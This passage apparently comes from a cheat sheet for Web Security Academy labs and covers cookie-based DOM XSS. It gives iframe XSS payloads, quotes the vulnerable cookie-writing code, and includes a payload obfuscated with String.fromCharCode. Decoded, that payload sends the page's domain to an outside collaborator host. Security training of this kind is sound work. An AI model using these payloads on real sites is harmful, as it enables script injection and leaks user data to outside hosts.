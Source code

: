 * Final Payload:  (Use in Exploit Server.)

```html
<iframe src="https://VULNERABLE-APP.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://VULNERABLE-APP.net';window.x=1;">
```

<br>

* **Vulnerable Code:**

```javascript
<script>
   document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

<br>

* Exploitation Payload: (Use in Exploit Server.) (Payload is similar to the above mentions.)

```javascript
<iframe src="https://0ac0003e03b1155582af4721003c00da.web-security-academy.net/product?productId=1&'><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,100,101,118,49,98,116,104,49,100,112,50,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,85,83,69,82,69,78,68,34))</script>" onload="if(!window.x)this.src='https://0ac0003e03b1155582af4721003c00da.web-security-academy.net';window.x=1;">
```


<br><br><br>

### Pending to complete labs that are missing from cheat sheet:

* LAB EXPERT Exploiting DOM clobbering to enable XSS

* LAB EXPERT Clobbering DOM attributes to bypass HTML filters
